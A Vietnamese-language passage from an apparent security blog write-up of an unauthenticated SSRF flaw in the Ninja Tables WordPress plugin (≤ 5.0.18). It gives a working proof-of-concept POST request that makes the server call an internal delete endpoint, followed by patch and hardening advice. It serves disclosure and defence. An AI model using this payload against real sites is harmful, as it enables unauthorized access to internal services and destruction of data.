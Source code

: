 ### Proof of Concept (PoC)

Gửi POST request với URL trỏ đến local service:

```
POST /wp-admin/admin-post.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 
Accept: */*
Content-Type: application/x-www-form-urlencoded
Content-Length: 146
Connection: close

action=wpf-async-request-5198d2fbe51aebbce20ad69b9ada4d77993bbc77&args[url]=http://localhost:8001/delete?id=1&args[method]=GET&args[name]=Tokuda
```

**Result**:

![Result](result.png "GET request tới local service")

## Conclusion

Lỗ hổng SSRF trong **Ninja Tables ≤ 5.0.18** cho thấy tham số `args[url]` do client cung cấp được sử dụng trực tiếp để thực hiện request phía server mà không kiểm tra, cho phép attacker (không cần xác thực) buộc ứng dụng truy cập tới địa chỉ tùy ý. Bản vá **≥ 5.0.19** đã loại bỏ đoạn mã nguy hiểm và khắc phục vector này.

## Key takeaways

* Nâng cấp ngay lên **5.0.19** hoặc mới hơn.
* Không dùng trực tiếp input của client làm URL cho request — validate/normalize trước khi sử dụng.
* Áp dụng allowlist cho host/port và chặn private IP ranges (127.0.0.0/8, 10.0.0.0/8, 192.168.0.0/16, v.v.).
* Tránh đăng ký endpoint `admin_post_nopriv_*` cho chức năng thực hiện outbound request hoặc thêm kiểm soát quyền/CSRF.

## References

[SSRF (Server Side Request Forgery) — Hacktrick](https://book.hacktricks.wiki/en/pentesting-web/ssrf-server-side-request-forgery/index.html)

[WordPress Ninja Tables Plugin <= 5.0.18 is vulnerable to Server Side Request Forgery (SSRF)](https://patchstack.com/database/wordpress/plugin/ninja-tables/vulnerability/wordpress-ninja-tables-easy-data-table-builder-plugin-5-0-18-unauthenticated-server-side-request-forgery-vulnerability) 

---

> Tác giả: [Bui Van Y](github.com/w41bu1)  
> URL: http://localhost:1313/vi/posts/2025-11-03-cve-2025-2940/  


